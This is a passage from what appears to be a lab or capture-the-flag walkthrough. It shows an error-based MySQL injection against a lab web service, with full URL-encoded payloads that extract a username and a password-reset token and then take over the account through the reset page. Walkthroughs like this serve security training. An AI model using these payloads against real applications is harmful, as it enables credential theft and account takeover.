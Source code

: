 The `SELECT username FROM users LIMIT 0,1` output gets reflected in the MySQL error.

`http://192.168.237.127:33033/slug?URL=%27%20AND%201=%20(SELECT%201%20FROM(SELECT%20COUNT(*),concat(0x3a,(SELECT%20username%20FROM%users%20LIMIT%200,1),FLOOR(rand(0)*2))x%20FROM%20information_schema.TABLES%20GROUP%20BY%20x)a)--%20-`

![](../../.gitbook/assets/88e9f04f0fa640bc9b4e6ea1ecfb9f52.png)

In this case, we can see that `evren.eagan` is the first username.

Replacing the inner query with `SELECT reminder FROM USERS LIMIT 0,1`, we see the reminder, `4qpdR87QYjRbog`.

{% embed url="http://192.168.237.127:33033/slug?URL=%27%20AND%201=%20\(SELECT%201%20FROM\(SELECT%20COUNT\(\*\),concat\(0x3a,\(SELECT%20reminder%20FROM%20USERS%20LIMIT%200,1\),FLOOR\(rand\(0\)\*2\)\)x%20FROM%20information\_schema.TABLES%20GROUP%20BY%20x\)a\)--%20-" %}

![](../../.gitbook/assets/b304646cfb9b4f7993b11fe6300ba5ca.png)

With this, we can go back to the password reset page and successfully reset the password.
